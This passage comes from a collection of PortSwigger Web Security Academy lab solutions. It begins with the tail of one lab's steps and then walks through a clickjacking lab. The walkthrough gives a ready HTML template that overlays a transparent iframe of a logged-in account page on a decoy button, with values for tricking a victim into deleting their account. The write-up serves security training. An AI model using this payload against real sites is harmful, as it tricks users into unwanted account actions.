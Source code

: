     `Note that unlike the normal Referer header, the word "referrer" must be spelled correctly in this case.
7.  Store the exploit, then click "Deliver to victim" to solve the lab.

---

# [Clickjacking](https://portswigger.net/web-security/clickjacking)

### Lab: Basic clickjacking with CSRF token protection

1.  Log in to your account on the target website.
2.  Go to the exploit server and paste the following HTML template into the "Body" section:  
    `<style>  
       iframe {  
           position:relative;  
           width:$width_value;  
           height: $height_value;  
           opacity: $opacity;  
           z-index: 2;  
       }  
       div {  
           position:absolute;  
           top:$top_value;  
           left:$side_value;  
           z-index: 1;  
       }  
    </style>  
    <div>Test me</div>  
    <iframe src="$url"></iframe>  
    `
3.  Make the following adjustments to the template:
    -   Replace `$url` in the iframe `src` attribute with the URL for the target website's user account page.
    -   Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).
    -   Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
    -   Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
4.  Click "Store" and then "View exploit".
5.  Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. **Do not actually click the "Delete account" button yourself.** If you do, the lab will be broken and you will need to wait until it resets to try again (about 20 minutes). If the div does not line up properly, adjust the `top` and `left` properties of the style sheet.
6.  Once you have the div element lined up correctly, change "Test me" to "Click me" and click "Store".
7.  Click on "Deliver exploit to victim" and the lab should be solved.
